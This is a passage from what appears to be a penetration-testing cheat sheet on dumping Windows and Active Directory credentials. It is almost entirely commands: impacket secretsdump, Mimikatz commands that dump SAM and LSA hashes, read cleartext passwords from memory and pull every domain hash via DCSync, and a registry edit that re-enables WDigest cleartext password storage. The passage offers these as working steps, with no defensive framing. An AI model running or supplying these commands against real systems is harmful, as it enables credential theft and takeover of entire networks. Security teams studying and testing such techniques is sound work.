 2. Online (without the hives):
```
$ python secretsdump.py [<domain>/]<username>[:<password> | -hashes <LM>:<NTLM>]@<dc>
```

### With [Mimikatz](https://github.com/gentilkiwi/mimikatz):
#### Local user accounts (server or workstation)
1. Offline (with the hives):
```
mimikatz # lsadump::sam /system:<system.hive> /sam:<sam.hive>
```

2. Online (without the hives):
```
mimikatz # privilege::debug
mimikatz # token::elevate
mimikatz # lsadump::sam
mimikatz # exit
```

#### Domain user accounts
1. From a server or workstation:
```
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
mimikatz # exit
```

2. From a Domain Controller:
* LM/NTLM hashes only:
```
mimikatz # lsadump::lsa /patch
mimikatz # exit
```

* LM/NTLM hashes + [supplementalCredentials](https://msdn.microsoft.com/de-de/library/cc245674.aspx) like WDigest and Kerberos hashes:
```
mimikatz # lsadump::lsa /inject
mimikatz # exit
```

* With DCSync:
```
mimikatz # privilege::debug
mimikatz # lsadump::dcsync /domain:test.local /all /csv
mimikatz # exit
```

#### Tricks when there is no more cleartext passwords in memory (after KB2871997 installed)
1. Remove the protection in registry:
* From a Cmd prompt:
```
> reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
```
